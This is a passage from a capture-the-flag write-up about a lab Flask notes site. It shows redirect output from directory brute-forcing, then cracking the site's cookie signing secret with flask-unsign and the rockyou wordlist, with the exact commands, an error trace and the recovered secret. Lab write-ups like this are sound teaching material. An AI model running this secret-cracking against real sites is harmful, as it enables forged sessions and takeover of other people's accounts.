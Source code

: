     302      GET        4l       24w      218c http://10.10.11.160:5000/notes => http://10.10.11.160:5000/login
    302      GET        4l       24w      218c http://10.10.11.160:5000/VIP => http://10.10.11.160:5000/login
    [####################] - 4m     29999/29999   0s      found:6       errors:0      
    [####################] - 4m     29999/29999   115/s   http://10.10.11.160:5000 
    

Everything except `/login` and `/register` returns a redirect to `/login`.

## Shell as svc

### Access to Site as Blue

#### Crack Flask Cookie Secret

Above I looked at the Flask cookie, decoding it with `flask-unsign`. Flask
cookies are signed with a secret, so that they can’t be modified without
knowing that secret. It is possible to do a brute force attack to test for a
weak secret, and `flask-unsign` provides that capability using `--unsign` with
`-w` giving a wordlist.

Running it with `rockyou.txt` returns an error:

    
    
    oxdf@hacky$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiMHhkZiJ9.YkOi3w.izn9BJ3ifHAo0BAfnrWr3EW6Nuc' -w /usr/share/wordlists/rockyou.txt 
    [*] Session decodes to: {'logged_in': True, 'username': '0xdf'}
    [*] Starting brute-forcer with 8 threads..
    [!] Unhandled exception in cracker thread. Please report this issue on the official bug tracker: "https://github.com/Paradoxis/Flask-Unsign/issues" and don't forget to include the following traceback:
    
    ## Stack Trace
    FlaskUnsignException: Secret must be a string-type (bytes, str) and received 'int'. To fix this, either add quotes to the secret 123456 or use the --no-literal-eval argument.
      File "/usr/lib/python3.8/multiprocessing/pool.py", line 125, in worker
        result = (True, func(*args, **kwds))
      File "/home/oxdf/.local/lib/python3.8/site-packages/flask_unsign/cracker.py", line 69, in unsign
        if session.verify(self.session, secret, legacy=self.legacy, salt=self.salt):
      File "/home/oxdf/.local/lib/python3.8/site-packages/flask_unsign/session.py", line 29, in verify
        raise FlaskUnsignException(
    
    [!] Failed to find secret key after 0 attempts.
    

It seems to be interpreting “123456” in the file as an int, which is odd. But
then the exception message tells how to fix this, by adding `--no-lteral-
eval`. I’ll add that, and it works, finding the secret very quickly:

    
    
    oxdf@hacky$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiMHhkZiJ9.YkOi3w.izn9BJ3ifHAo0BAfnrWr3EW6Nuc' -w /usr/share/wordlists/rockyou.txt --no-literal-eval
    [*] Session decodes to: {'logged_in': True, 'username': '0xdf'}
    [*] Starting brute-forcer with 8 threads..
    [+] Found secret key after 17024 attempts
    b'secret123'
    